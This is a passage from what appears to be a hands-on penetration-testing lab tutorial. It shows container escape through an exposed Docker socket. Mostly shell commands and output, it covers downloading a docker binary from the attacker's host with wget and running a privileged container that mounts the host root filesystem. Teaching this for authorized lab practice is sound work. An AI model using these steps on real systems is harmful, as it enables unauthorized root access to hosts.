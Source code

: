 Nevertheless, Docker sockets require appropriate permissions to ensure secure communication and prevent unauthorized access. Access to the Docker socket is typically restricted to specific users or user groups, ensuring that only trusted individuals can issue commands and interact with the Docker daemon. By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. This remote API access expands the possibilities for distributed Docker setups and remote management scenarios. However, depending on the configuration, there are many ways where automated processes or tasks can be stored. Those files can contain very useful information for us that we can use to escape the Docker container.

```shell-session
$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

From here on, we can use the `docker` binary to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [here](https://master.dockerproject.org/linux/x86_64/docker) and upload it to the Docker container.

```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

We can create our own Docker container that maps the host’s root directory (`/`) to the `/hostsystem` directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the `main_app` Docker image.

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```
